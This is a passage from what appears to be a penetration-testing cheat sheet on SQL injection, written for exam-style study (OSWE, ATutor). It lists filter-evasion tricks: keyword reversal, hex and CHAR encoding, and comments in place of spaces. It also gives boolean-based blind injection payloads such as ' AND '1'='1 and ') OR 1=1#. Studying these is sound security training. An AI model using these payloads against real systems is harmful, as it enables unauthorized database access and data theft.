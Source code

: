 ```
#UNION #SELECT
```


#### 16.1.3.6	REVERSE FUNCTION

- not verified

```
REVERSE('NOINU') REVERSE('TCELES')
```

#### 16.1.3.7	HEX ENCODING

- Useful when ' character is blocked

`WHERE username=0x626f62` is analagous to `WHERE username='bob'`


#### 16.1.3.8	CONCAT CHAR

- Useful when ' character is blocked

`WHERE username=CONCAT(CHAR(77),CHAR(76),CHAR(75))` is analagous to `WHERE username='MLK'`

#### 16.1.3.9	IF SPACE CHARACTER BLOCKED

- Can use multi-line comments

```
<VALIIDVALUE>')/**/OR/**/1=1%23
```

## 16.2	BOOLEAN-BASED BLIND [6,7]

### 16.2.1	PROOF OF CONCEPT

#### 16.2.1.1	-

```
<VALIDVALUE>' AND '1'='1
```

- should return value

```
<VALIDVALUE>' AND '1'='2
```

- should NOT return value

#### 16.2.1.2	(OSWE ATutor)

```
<VALIDVALUE>') OR 1=1#
```

- should return value

```
<VALIDVALUE>') OR 1=2#
```

